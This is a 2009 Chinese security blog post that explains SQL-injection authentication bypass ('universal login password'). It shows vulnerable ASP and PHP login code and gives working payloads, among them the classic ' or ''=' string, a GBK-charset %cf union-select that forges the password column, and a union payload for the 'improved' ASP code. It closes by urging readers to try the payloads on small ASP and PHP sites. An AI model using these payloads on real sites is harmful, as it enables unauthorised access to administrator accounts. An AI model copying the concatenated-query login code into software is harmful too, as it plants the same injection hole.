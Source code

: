 ```yaml
---
title: 新型万能登陆密码
description: 新型万能登陆密码本文章无技术含量，只是提供一个思路，思路来源于前不久暴出的那个ewebeditor2.16版本的上传漏洞。对于过滤了单引号或者做了post防注入的站点，此方法也无能为力了；但对于很多对登陆端没做处理的网站，此方法值得一试，尤其是你已经知道源码了却不能执行命令(ACCESS数据库)或者对方能报错(MYSQL数据库)。首先我们回顾下老的万能密码or漏洞的实现机制，先帖一段asp源码：
date: 2009-10-05 11:12:56
category: 技术文章
tags: ['安全', '漏洞信息', '技术类']
post_id: 992
alias: xinxing-wanneng-denglu-mima
ViewNums: 11386
---
```


[新型万能登陆密码](/blog/xinxing-wanneng-denglu-mima)
原创作者：oldjun
文章来源：[http://www.oldjun.com/](http://www.oldjun.com/blog/index.php/archives/49/)
注：本文已经发表在《黑客手册》2009年05期

本文章无技术含量，只是提供一个思路，思路来源于前不久暴出的那个ewebeditor2.16版本的上传漏洞。对于过滤了单引号或者做了post防注入的 站点，此方法也无能为力了；但对于很多对登陆端没做处理的网站，此方法值得一试，尤其是你已经知道源码了却不能执行命令(ACCESS数据库)或者对方能报错( MYSQL数据库)。

首先我们回顾下老的[万能密码](/blog/xinxing-wanneng-denglu-mima)or漏洞的实现机制，先帖一段asp源码：

---------------------------老的存在or漏洞的asp代码----------------------------------------

username = request.form("username")
password = request.form("password ")
set rs=server.createobject("adodb.recordset")
sql = "select * from admin where UserName='"&username&"' And PassWord='"& password &"'"
rs.open sql,conn,1,3

--------------------------------------------------------------------------------------------------------

将表单中的username和password数据分别赋值给username和password，执行
select * from admin where UserName='"&username&"' And PassWord='"&password&"' 语句
但如果被赋值的username是 ' or ''=' （password任意填写）则SQL语句变成了
select * from admin where UserName='' or ''='' And PassWord='123'
''=''条件成立，则语句成功找到管理表里首位的帐号身份验证登陆，因而成了or漏洞，除' or ''='以外，'or'='or' 啊什么的都可以，于是早年or漏洞形成了万能登陆密码。

针对这种or漏洞，很多asp站点进行了改进，改进后的源码大致如下：

---------------------------后来经过改进后的asp代码-----------------------------------------

username = request.form("username")
password = request.form("password ")
set rs=server.createobject("adodb.recordset")
sql = "select [password] from admin where UserName='"&username&"'"
rs.open sql,conn,1,3
If password = rs("password") then
…’登陆成功
End if

--------------------------------------------------------------------------------------------------------

现在很多asp站点的登陆页面都是这么写的，如果是mssql，还可以执行SQL语句；但如果是ACCESS，很多人应该都会望而却步了吧？其实在没有过滤单引号的情况下，我们还是可以用“万能密码”登陆进后台的。

下面我们进入主题，讨论新型万能登陆密码，以php代码为例，由于字符集编码的问题，管理登陆端可以注入，先看源码：

-----------存在字符集漏洞或者magic_quotes_gpc为off的php代码-------------------

$row=$DB->query_first("SELECT * FROM admin WHERE username='$username'");
If($row){
if($password!=$row[password]) {
…..//成功
}else{
echo "用户名或密码错误!";
}
}else{
echo "用户名或密码错误!";
}

--------------------------------------------------------------------------------------------------------

由于字符集问题，我们可以注入，但由于回显都一样，所以猜不到数据。根据错误提示，我们发现管理表一共6列，password在第三列，于是我们构造如下用户名与密码：
Username=-1%cf' union select 1,1,1 as password,1,1,1 %23
Password=1
带入登陆框，sql语句为：
SELECT * FROM admin WHERE username='-1蟎' union select 1,1 as password,1,1,1,1
前面的用户名肯定不存在，于是select出来的password就是1了，就等于提交的password了，经测试，成功绕过验证。

现在我们再回头看看之前改进过的asp登陆代码，我们该如何绕过呢，原理同上：
Username=-1' union select 1 as [password] from admin where '1'='1
Password=1

呵呵，轻松绕过认证，到此为止大家知道该如何利用了吧，对于现在绝大多数的小asp站以及一定规模的php站点，大家不防试试这个[万能密码](/blog/xinxing-wanneng-denglu-mima)~

